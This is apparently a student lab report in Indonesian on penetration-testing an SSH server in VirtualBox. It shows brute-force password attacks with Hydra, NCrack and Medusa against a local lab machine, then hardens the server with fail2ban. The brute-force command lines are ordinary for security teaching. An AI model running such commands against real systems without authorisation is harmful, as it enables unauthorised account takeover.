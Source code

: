 <b> TUGAS 1 PKSJ </b>
# Uji Penetrasi

## Anggota Kelompok :
1. Aldi Febriansyah - 5114100015
1. Trastian Satria W - 5114100016
1. Kevin A Fachreza - 5114100128

## Uji Penetrasi 1
### Install
#### Install Ubuntu Server

1. Download Ubuntu
1. Buka Virtual Box
1. Pilih New
1. Masukkan nama, dan pilih tipe ubuntu
1. Masukkan jumlah RAM sesuai kebutuhan
1. Pilih Create Virtual Hardisk Now
1. Pilih VHD
1. Pilih Fixed Size
1. Masukkan Ukuran Hardisk, sesuai kebutuhan
1. Pilih ISO Ubuntu
1. Klik Install
1. Setelah Install, ikuti menu Onboarding sesuai pada ubuntu

#### Install Kali Linux

1. Download Kali Linux
1. Buka Virtual Box
1. Pilih New
1. Masukkan nama, dan pilih tipe Linux
1. Masukkan jumlah RAM sesuai kebutuhan
1. Pilih Create Virtual Hardisk Now
1. Pilih VHD
1. Pilih Fixed Size
1. Masukkan Ukuran Hardisk, sesuai kebutuhan
1. Pilih ISO Kali Linux
1. Klik Install
1. Setelah Install, ikuti menu Onboarding sesuai pada Kali

#### Install SSH Server

Pada instalasi ubuntu server, kami sudah meng include install openssh pada server. Namun untuk menginstall secara manual bisa menggunakan cara dibawah.

1. Untuk install ssh server ketik
```
sudo apt-get install openssh-server
```

2. Cek jika install berhasil menggunakan command berikut
```
service ssh status
```
https://user-images.githubusercontent.com/17487644/32114550-0fdae0cc-bb6e-11e7-8987-bf3d03952e06.PNG
#### Install Tools Medusa, THC-Hydra, NCrack

1. THC-Hydra, NCrack, dan Medusa merupakan tools default Kali, sehingga tidak perlu install

### Brute Force Menggunakan Tools

#### Hydra

1. Hydra membutuhkan list password, maka dibuat file password bernama """""""
1. Jalankan Hydra
```
hydra -l ubuntuserver -P '/root/Desktop/passw.txt' 192.168.1.8 -t 4 ssh
```
![alt text](https://github.com/kevinfachreza/pksj/blob/master/pksj/no%20counter/1hydra.PNG?raw=true)

#### NCrack

1. Jalankan NCrack

```
ncrack -p 22 --user ubuntuserver -P '/root/Desktop/passw.txt' 192.168.1.8 
```
![alt text](https://github.com/kevinfachreza/pksj/blob/master/pksj/no%20counter/2-ncrack.PNG?raw=true)

#### Medusa

1. Jalankan Medusa

```
medusa -u ubuntuserver -P '/root/Desktop/passw.txt' -h 192.168.1.8 -M ssh 
```
![alt text](https://github.com/kevinfachreza/pksj/blob/master/pksj/no%20counter/med1.PNG?raw=true)
![alt text](https://github.com/kevinfachreza/pksj/blob/master/pksj/no%20counter/med2.PNG?raw=true)

#### Uji Masuk SSH
1. Masuk ke SSH

```
ssh ubuntuserver@192.168.1.8
```
![alt text](https://github.com/kevinfachreza/pksj/blob/master/pksj/no%20counter/coba%20masuk%20ssh%20server.PNG?raw=true)


## Uji Penetrasi 2

1. Install fail2ban

```
sudo apt-get install fail2ban
```

2. Buka konfigurasi fail2ban

```
sudo nano /etc/fail2ban/jail.conf
```

3. Atur bantime. Bantime merupakan lamanya waktu jika host di ban
4. Atur maxretry. Max retry merupakan maksimal percobaan gagal
5. Atur findtime. Findtime merupakan waktu diantara percobaan gagal 1 dan terakhir.

6. Cek Iptables

```
sudo iptables -S
```

7. Restart fail2ban

```
sudo service fail2ban start
```

8. Lihat perubahan iptables

